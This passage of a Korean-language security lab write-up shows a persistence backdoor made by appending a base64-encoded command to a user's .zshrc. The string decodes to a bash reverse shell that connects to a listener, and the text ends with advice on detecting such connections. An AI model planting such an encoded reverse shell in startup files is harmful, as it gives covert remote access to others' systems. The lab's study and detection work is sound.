 이후 이전과 같이 `/.zshrc` 경로에 인코딩 된 문자열을 입력해준다.  

```
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMjkuMTgwLjIwMi8xMjM0IDA+JjEn
```

<br>

<img src="https://github.com/user-attachments/assets/06dcab0c-692e-4520-9acc-e16ebcda6d2b" width=700>  

<br>

그리고 결과를 확인해보면  
<br>

<img src="https://github.com/user-attachments/assets/b914266f-2365-4fa6-b347-b20d6b7098c2" width=700>

잘 실행된 것을 볼 수 있다.  

이렇게 단순한 방식으로 눈에 띄기 어렵고, 개별 사용자에 백도어를 심을 수 있다.  
이번 실습으로 사용자 초기화 스크립트같은 기본 파일이 악용될 수 있다는 점과, 단순한 인코딩 기법으로 명령어의 해석을 어렵게 할 수 있다는 것을 알았다.  
실제로 공격자들이 `.bashrc`, `.zshrc`에 코드를 삽입하여 원격 접속을 지속하는 방식이 보고된 바가 많다.  

다만, 현실적으로 모든 사용자 계정의 모든 파일을 주기적으로 확인하는 것은 실효성이 떨어지기 때문에, 파일 자체를 감시하기 보단 해당 설정을 통해 실행된 비정상 프로세스나 외부 연결을 탐지하는 것이 효율적일 것이다.  
